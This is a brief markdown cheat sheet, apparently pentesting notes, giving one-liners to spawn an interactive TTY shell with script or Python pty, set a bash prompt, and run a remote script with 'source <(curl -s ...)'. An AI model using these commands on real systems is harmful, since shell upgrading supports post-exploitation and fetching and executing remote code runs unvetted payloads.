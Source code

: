 
- Spawn TTY shell: `/usr/bin/script -qc /bin/bash /dev/null` 
  - to add PWD in bash: `PS1='\u@\h:\w\$ '`
<br />
- Spawn Python TTY Shell: `python -c 'import pty;pty.spawn("/bin/bash")'`


- Run script from URL: `source <(curl -s http://mywebsite.com/myscript.sh)`
